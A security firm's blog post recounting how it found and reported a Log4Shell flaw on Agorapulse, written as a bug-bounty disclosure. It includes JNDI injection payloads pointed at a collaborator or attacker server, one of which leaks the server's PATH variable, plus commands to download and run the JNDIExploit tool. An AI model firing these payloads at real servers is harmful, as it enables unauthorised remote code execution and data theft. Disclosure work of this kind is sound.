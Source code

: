 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. 


Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the [analytics published](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution) by HackerOne which say, “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell". Almost the same number of reports were submitted on bugcrowd as well with over 300 reports submitted in a single day.



## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring, and management. Focusing on social media platforms like Facebook, LinkedIn, and Twitter, agora pulse provides a comprehensive and compact platform for companies for their marketing strategies while also keeping it under the budget radar. The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint or any request it was really hard to focus on one part of an application. So decided to submit payloads all over the web application and wait for any pingbacks, To do that We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in the profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in the message box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to identify the vulnerable request to trigger the vulnerability.


On the other hand, we also played it safe, using a payload that was not at all harmful to the client i.e did not result in any denial of service attack or executing any malicious commands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the DNS pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while, we received two pingbacks. One of the received was a false pingback. But next up we had a DNS pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to burp collaborator Client you will see a Pingback on it

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services. So, we decide to prove the impact by extracting the global PATH variable to prove the real impact of the vulnerability and we needed to set up and JNDI server for that, So we quickly set up an amazon ec2 and set up a JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. And Hence no sensitive, Confidential, or any information related to their users was extracted.


## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug on the same day and rewarded our finding.

After their fix was implemented, The team requested a re-check on the vulnerability and we tried various payloads and bypasses to confirm if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  
> ⚠️ Agorapulse was one of the 14 companies Snapsec helped to detect and fix Log4shell on the first day it was publicly disclosed. 

## About us

Snapsec is a Cyber security service company for rapidly growing SaaS businesses, we help you with an enhanced level of security to defend your critical networks and data at affordable charges for our services.

Please feel free to contact us at support@snapsec.com if you're seeking a company that appreciates your security and guarantees that you are completely protected from online security risks. 
 
